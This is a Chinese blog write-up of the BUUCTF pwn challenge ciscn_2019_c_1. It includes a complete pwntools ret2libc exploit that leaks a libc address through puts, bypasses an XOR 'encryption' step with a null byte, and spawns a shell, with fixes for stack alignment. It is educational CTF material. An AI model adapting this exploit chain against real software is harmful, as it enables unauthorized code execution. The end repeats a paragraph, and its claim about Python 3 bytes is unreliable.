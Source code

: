 <!--yml
category: 未分类
date: 2022-04-26 14:52:45
-->

# BUUCTF ciscn_2019_c_1__N1rvana_的博客-CSDN博客

> 来源：[https://blog.csdn.net/Invin_cible/article/details/121322811](https://blog.csdn.net/Invin_cible/article/details/121322811)

一道积攒了很久才解出来的题，这道题大体不难，但是好多小细节呜呜呜。而且Libcsearcher里的libc库没更新（上篇博客讲了）。

这道题是BUUCTF上的ciscn_2019_c_1。标准的64位ROP流程，我也就分享一下自己的坎坷心路历程。

# 代码审计

![4](img/d38a281638320df9048c204cd6bac953.png)

老规矩checksec一下，只开了nx保护。

观察main函数

![1](img/6c76f6be81ac84f479be426665895ab7.png)

显然哦，只有输入1才有点用。

## 关键函数:encrypt()

![2](img/68c3d785289a1ff2efc116e997aa0e05.png)

发现一个栈溢出漏洞。ROP链的入口。

然后就是读取s的长度，在长度范围内对内容进行加密：也就是根据ascii码范围不同来进行异或操作。

这个解密函数会把读入的s给加密，把你的内容替换掉。

# 解题思路

## 1.通过gets（）函数构造ROP链：

64位程序里面的传参方式是前六位参数为寄存器传参，故不能直接把参数写在栈里，需要通过gadgets来实现控制寄存器的值从而控制函数参数的值。

实用工具：ROPgadgets

```
ROPgadget --binary 文件名 
```

即可查看程序本身的gadget。这里只会用到第一个寄存器rdi，因此去找pop rdi的指令即可。

![5](img/66807dd23a8f548815b25d4c1e4443bf.png)

```
pop_rdi_addr = 0x400c83 
```

然后通过 p64(pop_rdi_addr)+p64(参数值)+p64(函数地址) 即可调用函数

## 2.绕过加密函数，防止输入内容被篡改：

### 方法一：

关于绕过加密函数，网上异口同声的一种方法：

输入encrypt(s)，也就是说先给要输入的内容异或一次，然后程序在给异或过的信息再异或一次。

异或的加法逆元，导致一个数与相同的另一个数异或两次，就会回到最初的值。

例如(a^b)^b=a

这种方法确实可以，不过感觉很繁琐，首先得把加密函数稍微改一下加进自己的exp里。

现在在网上基本上很难找到不同的解法了，感觉大家都流水线过一遍，也不想去思考或者也不愿意去分享自己更好的做法了。很可惜，李杜诗篇万口传，至今已觉不新鲜。

### 方法二：

也是偶然发现的，并没有加密，发过去代码依然成功运行并且得到了flag。

后来想了想，大概是因为64位里面的地址高位都是0，造成了\x00截断，于是strlen（）函数读取的长度变得更短，没有威胁到我们payload后面关键的地址部分。

```
payload = b'a'*0x58+p64(pop_rdi_addr)+p64(puts_got)+p64(puts_plt)+p64(main_addr) 
```

### 方法三：

根据第二种方法得到启发，直接令payload第一位为’\x00’，这样strlen（）读取到的就是0，就不会进行加密。

```
payload = b'\x00'+b'a'*0x57+p64(pop_rdi_addr)+p64(puts_got)+p64(puts_plt)+p64(main_addr) 
```

# 最终exp:

```
from pwn import *
from LibcSearcher import *
context.log_level='debug'

r=process('/mnt/hgfs/ubuntu/BUUCTF/ciscn_2019_c_1')
elf = ELF('/mnt/hgfs/ubuntu/BUUCTF/ciscn_2019_c_1')
ret = 0x4006b9
pop_rdi_addr = 0x400c83
puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]
main_addr = elf.sym["main"]
r.sendlineafter(b"Input your choice!\n",b'1')
payload = b'\x00'+b'a'*0x57+p64(pop_rdi_addr)+p64(puts_got)+p64(puts_plt)+p64(main_addr)
r.recvuntil(b"encrypted\n")
r.sendline(payload)
r.recvuntil(b"Ciphertext\n")

r.recvuntil(b"\n")

puts_addr = u64(r.recvline()[:-1].ljust(8,b'\0'))
print(hex(puts_addr))
libc = LibcSearcher("puts",puts_addr)
libc_base = puts_addr - libc.dump("puts")
system_addr = libc_base+libc.dump("system")
bin_sh = libc_base+libc.dump("str_bin_sh")
r.sendlineafter(b"Input your choice!\n",b'1')

payload1 = b'\x00'+b'a'*0x57+p64(ret)+p64(pop_rdi_addr)+p64(bin_sh)+p64(system_addr)

r.recvuntil(b"encrypted\n")
r.sendline(payload1)
r.interactive() 
```

## 遇到的问题：

### 1.没收到puts真实地址

出现在exp里第一个# #夹着的地方。

观察encrypt（）函数应该是在ROP后先输出Ciphertext后就会返回，而返回地址已被我们劫持成puts（）来打印出puts真实地址。因此我们的puts真实函数地址应该在 r.recvuntil(b"Ciphertext\n") 后就可以收到。但是我通过这样接收到的puts地址，Libcsearcher找到了几百个libc，明显说明地址错误。

后来才发现：

![3](img/4dfa01048c5e21251edd026fef5cf068.png)

encrypt()函数在返回之前还调用了一次puts()函数来打印加密后的s，然后才retn。因此我们需要再接受一行，接下来收到的才是puts（）的真实地址。

```
r.recvuntil(b"Ciphertext\n")
r.recvuntil(b"\n")
puts_addr = u64(r.recvline()[:-1].ljust(8,b'\0')) 
```

### 2.依然GOT EOF

借鉴网上的wp，似乎是因为高版本ubuntu里调用system函数的时候需要满足堆栈平衡，就是说调用函数之前的字节数需要是16的倍数。之前我的payload是这样的：

```
payload1 = b'\x00'+b'a'*0x57+p64(pop_rdi_addr)+p64(bin_sh)+p64(system_addr) 
```

这样的话在调用system函数之前一共有0x58+8*2=104个字节，不是16的倍数。

这种情况，就在填充字符后面加一个ret指令的地址就行，一个不行就找两个，ret的地址依然可以用ROPgadget工具找。

```
payload1 = b'\x00'+b'a'*0x57+p64(ret)+p64(pop_rdi_addr)+p64(bin_sh)+p64(system_addr) 
```

### 3.关于我的字符串前面都带一个b

我的python版本太高啦，是python3。似乎python3有八个字节的byte，所以它每次都会报这样的错误：

```
BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes 
```

查看链接网址后提示在每个字符串前面加上b即不会出现错误警告
python3有八个字节的byte，所以它每次都会报这样的错误：

```
BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes 
```

查看链接网址后提示在每个字符串前面加上b即不会出现错误警告